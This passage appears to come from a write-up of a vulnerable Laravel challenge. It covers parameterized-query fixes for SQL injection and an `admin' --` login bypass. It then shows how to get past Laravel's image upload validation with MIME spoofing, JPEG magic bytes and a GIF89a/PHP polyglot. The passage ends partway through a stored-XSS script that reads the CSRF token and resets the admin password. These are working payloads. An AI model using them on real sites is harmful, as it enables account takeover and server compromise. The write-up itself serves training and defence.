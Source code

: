 Another fix is to rewrite the initial query using a parameterized query.
```
DB::table('posts')
    ->select('postTitle', 'postBody')
    ->whereRaw('id = ?', $id)->first();
```

We introduced a ? as a placeholder for the value of id and provided the actual value for id as a second parameter for whereRaw. 

Or using Eloquent default query builder
```
Post::where('postTitle', 'postBody')
    ->where('id', $id)->first();
```

**We achieve the challenge by using around 40 different SQLi commands that lead to login with user 'admin', for example `admin' --`**


### Image Upload Bypass
By bypassing laravel’s image validation we can achieve other attacks, first and most loved is XSS and as it is an stored xss we can write a full exploit that let us bypass CSRF and then we are free to do whatever we want with higher privileges.

Notice that in our Controller file we specified that only image files with jpeg,png,jpg,gif,svg mimes are allowed, so to bypass this protection we need to intercept the upload POST request in Burp and change the mime type to image/jpeg. But Laravel logic also can still block some php or js files, so we go further into the exploitation using https://mh-nexus.de/en/hxd/

Using this hex editor, open your "image" file and add these characters `FF D8 FF E0` at the very beginning of it.

Al alternative is camouflaging the file as a GIF file using
```
GIF89a<?php
phpinfo();
?>
```

With any of this options you can upload this file bypassing Laravel 8 image validation.

We could even upload a combined XSS attack that allows CSRF bypass like this:
```
����<html>
<head>
<title>Laravel Csrf Bypass</title>
</head>
<body>
<script>
function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("_token=" + token + "&name=admin&password=1234567890");
}
function getTokenJS() {
    var xhr = new XMLHttpRequest();
    xhr.responseType = "document";
    xhr.open("GET", "/login", true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            page = xhr.response
            input = page.getElementsByTagName("input")[0];
            alert("The token is: " + input.value);
            submitFormWithTokenJS(input.value);
        }
    };
    xhr.send(null);
```
